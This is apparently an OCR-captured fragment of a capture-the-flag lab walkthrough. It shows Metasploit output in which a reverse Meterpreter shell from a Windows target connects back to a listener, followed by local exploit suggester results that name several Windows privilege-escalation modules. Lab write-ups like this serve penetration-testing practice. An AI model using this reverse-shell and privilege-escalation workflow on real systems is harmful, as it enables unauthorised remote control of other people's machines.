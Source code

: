```

msf6 exploit(multi/handler) > options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/meterpreter_reverse_tcp):

   Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
   EXITFUNC    process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   EXTENSIONS                   no        Comma-separate list of extensions to load
   EXTINIT                      no        Initialization strings for extensions
   LHOST       10.10.14.27      yes       The listen address (an interface may be specified)
   LPORT       9005             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target



View the full module info with the info, or info -d command.

msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.27:9005 
[*] Meterpreter session 1 opened (10.10.14.27:9005 -> 10.10.10.5:49181) at 2025-05-28 21:17:11 +1000
```
-  initial foothold and privilege escalate
```
# Priv Esc
# run exploit suggester
eterpreter > run post/multi/recon/local_exploit_suggester

[*] 10.10.10.5 - Collecting local exploits for x86/windows...
[-] Failed to load extension: No response was received to the core_loadlib request.
[-] Failed to load extension: No response was received to the core_enumextcmd request.
[*] 10.10.10.5 - 184 exploit checks are being tried...
[+] 10.10.10.5 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms10_092_schelevator: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms15_004_tswbproxy: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The service is running, but could not be validated.
```